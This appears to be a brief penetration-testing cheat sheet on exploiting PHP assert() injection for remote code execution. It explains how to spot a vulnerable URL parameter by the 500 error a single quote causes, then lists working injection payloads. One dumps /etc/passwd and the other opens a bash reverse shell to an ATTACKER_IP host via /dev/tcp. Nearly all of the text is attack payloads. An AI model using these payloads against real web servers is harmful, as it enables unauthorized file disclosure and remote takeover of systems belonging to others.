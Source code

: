 # PHP Assertions RCE

You can achieve RCE if you can identify this type of vulnerability.

### 1) Identification

On a parameter, try to add a single quote (')

    http://domain.local/index.php?page='

If you get a 500 internal server error, it is most likely vulnerable to RCE.

### 2) Payloads to use

Read files from the machine

    ' and die(show_source('/etc/passwd')) or '

Get a reverse shell

    ' and die(exec('bash -c "/bin/bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1"')) or '
